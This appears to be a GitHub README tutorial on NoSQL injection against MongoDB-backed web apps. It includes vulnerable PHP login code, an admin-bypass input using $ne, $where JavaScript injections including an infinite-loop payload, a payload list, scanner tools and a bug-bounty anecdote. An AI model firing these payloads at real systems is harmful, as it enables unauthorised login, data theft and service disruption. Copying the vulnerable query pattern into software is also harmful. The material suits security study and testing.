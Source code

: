 # NoSQL_injection_stuff

Learn what is NoSQL injection and how to find them.

Content:
* <a href="https://github.com/DevanshRaghav75/NoSQL_injection_stuff/blob/main/README.md#what-is-nosql-">What is NoSQL database ?</a>
* <a href="https://github.com/DevanshRaghav75/NoSQL_injection_stuff/blob/main/README.md#what-is-nosql-injection-">What is NoSQL injection ?</a>
* <a href="https://github.com/DevanshRaghav75/NoSQL_injection_stuff/blob/main/README.md#why-to-learn-nosql-injection">Why to learn NoSQL injection ?</a>
* <a href="https://github.com/DevanshRaghav75/NoSQL_injection_stuff/blob/main/README.md#mongodb-injection-example-in-a-php-application">MongoDB Injection Example in a PHP Application</a>
* <a href="https://github.com/DevanshRaghav75/NoSQL_injection_stuff/blob/main/README.md#advanced-attacks-and-javascript-injections-ssji-injection"> Advanced Attacks and JavaScript Injections (SSJI injection)</a>
* <a href="https://github.com/DevanshRaghav75/NoSQL_injection_stuff/blob/main/README.md#how-to-automate-nosql-injection">How to automate NoSQL injection ?</a>
* <a href="https://github.com/DevanshRaghav75/NoSQL_injection_stuff/blob/main/README.md#tools-">Tools to automate NoSQL injection</a>
* <a href="https://github.com/DevanshRaghav75/NoSQL_injection_stuff/blob/main/README.md#payloads">NoSQL injection payloads</a>
* <a href="https://github.com/DevanshRaghav75/NoSQL_injection_stuff/blob/main/README.md#how-i-found-nosql-injection-on-dutch-goverment-website-and-got-a-t-shirt">How I found NoSQL injection on dutch goverment website</a>


## What is NoSQL ?

When people use the term ```“NoSQL database”```, they typically use it to refer to any non-relational database. Some say the term ```“NoSQL”``` stands for ```“non SQL”``` while others say it stands for ```“not only SQL.”``` Either way, most agree that ```NoSQL databases``` are databases that store data in a format other than relational tables.

A common misconception is that ```NoSQL databases``` or non-relational databases don’t store relationship data well. ```NoSQL databases``` can store relationship data—they just store it differently than relational databases do. In fact, when compared with ```SQL databases```, many find modeling relationship data in ```NoSQL databases``` to be easier than in ```SQL databases```, because related data doesn’t have to be split between tables.

```NoSQL``` data models allow related data to be nested within a single data structure.

```NoSQL databases``` emerged in the late 2000s as the cost of storage dramatically decreased. Gone were the days of needing to create a complex, difficult-to-manage data model simply for the purposes of reducing data duplication. Developers (rather than storage) were becoming the primary cost of software development, so ```NoSQL databases``` optimized for developer productivity.

## What is NoSQL injection ?

A ```NoSQL injection``` vulnerability is an error in a ```web application``` that uses a ```NoSQL database```. This web application security issue lets a malicious party bypass authentication, extract data, modify data, or even gain complete control over the application. ```NoSQL injection``` attacks are the result of a lack of data sanitization.

## Why to learn NoSQL injection ?

Now most of the websites are using ```NoSQL database``` so its difficult to find ```SQL injection``` on websites so its time to upgrade to ```NoSQL injection```.

## MongoDB Injection Example in a PHP Application

To understand how a ```NoSQL``` query is constructed and how it is vulnerable to an `injection` attack, we will focus on the most popular ```NoSQL database```: `MongoDB`, and we will access it using `PHP`. Here is a simple example of a code snippet that accesses a `MongoDB` for authentication purposes.

* Vulnerable code
```
$username = $_POST['username'];
$password = $_POST['password'];
$connection = new MongoDB\Client('mongodb://localhost:27017');
if($connection) {
	$db = $connection->test;
	$users = $db->users;
	$query = array(
		"user" => $username,
		"password" => $password
	);
	$req = $users->findOne($query);
}
```

As you can see, in this example, `username` and `password` used for authentication are taken from a `POST` request and then directly used in the query. Similar to other types of `injection`, a `malicious user` may supply a `NoSQL injection payload` that tricks the database.

To perform a successful `MongoDB injection`, it is enough if the attacker supplies the following `malicious` input data as a POST request:

```
username[$eq]=admin&password[$ne]=foo
```
* NOTE: Mongodb uses NoSQL database 

The `[$ne]` query operator means not equal. Therefore, the resulting query will find the first record in which the `username` is admin and the `password` is not foo. If this code is used for authentication, the attacker is logged in as the admin user.

More operators can be used in a similar fashion, for example `[$lt]` and `[$gt]` as well as `[$regex]`. Regular expressions can even allow the attacker to enumerate all users in the above scenario by trying combinations in sequence and evaluating the result.

## Advanced Attacks and JavaScript Injections (SSJI injection)

`MongoDB` queries support a commonly used operator `$where`, which introduces possibilities of serious `NoSQL attacks` that include JavaScript objects.

For example, a developer might want to use the `$where` operator in the following fashion to access a record for a particular user:
```
$query = array('$where' => 'this.name === \''.$name.'\'');
```

In this situation, the attacker may provide the following empty string comparison trick as $name:

```'; return '' == '```

As a result, the query will become:

```"$where": "this.name === ''; return '```

And the attacker will receive the entire list of users.

Since the $where operator is actually evaluated as JavaScript code, the attacker could also pass a malicious string that includes arbitrary JavaScript, for example:

```'; while(true){}'```

## How to automate NoSQL injection ?

There are very less tools and resources to learn `NoSQL injection` because its new to peoples, I know two tools that will automate the exploitation of `NoSQL injection` but note that these tools can give `false positive` so if these tools find any `NoSQL injection` issue so don't report it before you check that the `injection exists or not`.

## Tools :
* NoSQLi - https://github.com/Charlie-belmer/nosqli
* NoSQLi scanner extenstion of Burp suit

`NoSQLi` is very easy to install, You can just `clone it` or can run `apt-get install nosqli` in your terminal.

But `NoSQLi scanner` is only available for `Burp suit pro users` so if you use burp pro then you can easily use this extension, First goto `Extenter tab` than `search NoSQLi scanner` now click on `install`, If you want to use this extension you can just right click on target then click on Actively scan this host after that the extension will automatically start scanning. 

## Payloads 
These are some payloads you can use to identify NoSQL injection vulnerability:
```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
|| 1==1//
|| 1==1%00
}, { password : /.*/ }
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```

## How I found NoSQL injection on Dutch goverment website and got a t-shirt

Yes, I found `NoSQL injection` on dutch goverment website so lets see how I found that.

I found it very easily without `recon`, I just used burp `NoSQLI scanner extension`, Its my habit to scan the host activily using Active ++ extension before going in deep like recon, enumeration and all that stuff so as always I used active ++ and NoSQLi extension to find bugs and after waiting 1-2 hours I got some NoSQL/SSJI injection issues so I decided to check that the issue exists or not so I clicked on show response in browser and I found that the injection exists so I reported that and as a token of appreciation they gave me a t-shirt.

THE END !

